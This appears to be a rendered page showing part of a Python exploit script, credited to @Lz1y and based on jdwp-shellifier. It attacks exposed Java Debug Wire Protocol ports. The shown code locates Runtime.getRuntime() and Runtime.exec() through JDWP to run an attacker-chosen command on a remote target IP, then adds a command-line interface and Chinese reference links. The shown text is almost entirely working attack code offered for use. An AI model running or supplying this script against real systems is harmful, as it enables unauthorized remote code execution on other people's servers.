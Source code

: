         if rt is None:
            print "[-] Failed to invoke Runtime.getRuntime()"
            return False
        print ("[+] Runtime.getRuntime() returned context id:%#x" % rt)

        # 3. find exec() method
        execMeth = jdwp.get_method_by_name("exec")
        if execMeth is None:
            print ("[-] Cannot find method Runtime.exec()")
            return False
        print ("[+] found Runtime.exec(): id=%x" % execMeth["methodId"])

        # 4. call exec() in this context with the alloc-ed string
        data = [ chr(TAG_OBJECT) + jdwp.format(jdwp.objectIDSize, cmdObjId) ]
        buf = jdwp.invoke(rt, threadId, runtimeClassId, execMeth["methodId"], *data)
        if buf[0] != chr(TAG_OBJECT):
            print ("[-] Unexpected returned type: expecting Object")
            return False

        retId = jdwp.unformat(jdwp.objectIDSize, buf[1:1+jdwp.objectIDSize])
        print ("[+] Runtime.exec() successful, retId=%x" % retId)

        return True

    if __name__ == "__main__":
        parser = argparse.ArgumentParser(description="Universal exploitation script for JDWP by @Lz1y, base on @_hugsy_",
                                         formatter_class=argparse.ArgumentDefaultsHelpFormatter )

        parser.add_argument("-t", "--target", type=str, metavar="IP", help="Remote target IP", required=True)
        parser.add_argument("-p", "--port", type=int, metavar="PORT", default=8000, help="Remote target port")

        parser.add_argument("-c", "--cmd", dest="cmd", type=str, metavar="COMMAND",
                            help="Specify command to execute remotely")

        args = parser.parse_args()
        
        cli = JDWPClient(args.target, args.port)
        try:
            cli.start()
        except:
            print("Handshake failed!")

        #print vm description
        print "[+] Dump vm description \n", cli.description, "\n"
        runtime_exec(cli)
        cli.leave()

参考链接
--------

> https://www.cnblogs.com/sq-smile/protected/p/13172831.html
>
> https://github.com/Lz1y/jdwp-shellifier

